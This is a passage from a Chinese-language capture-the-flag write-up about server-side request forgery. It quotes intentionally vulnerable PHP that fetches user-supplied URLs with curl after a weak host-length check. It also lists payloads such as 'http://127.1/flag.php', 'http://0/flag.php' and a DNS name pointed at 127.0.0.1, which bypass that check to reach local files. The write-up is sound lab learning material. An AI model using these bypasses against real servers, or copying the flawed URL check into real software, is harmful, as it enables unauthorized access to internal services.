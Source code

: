 ```php
?> 
```

payload

```
http://da.xyz52.link/flag.php
设置A记录指向127.0.0.1
```

## web355(0代表本地ip)

```php
 <?php
error_reporting(0);
highlight_file(__FILE__);
$url=$_POST['url'];
$x=parse_url($url);
if($x['scheme']==='http'||$x['scheme']==='https'){
$host=$x['host'];
if((strlen($host)<=5)){
$ch=curl_init($url);
curl_setopt($ch, CURLOPT_HEADER, 0);
curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);
$result=curl_exec($ch);
curl_close($ch);
echo ($result);
}
else{
    die('hacker');
}
}
else{
    die('hacker');
}
?> 
```

payload

```
url=http://127.1/flag.php
url=http://0/flag.php
```

## web356(0代表本地ip)

host名称的长度小于3

payload

```
url=http://0/flag.php
```
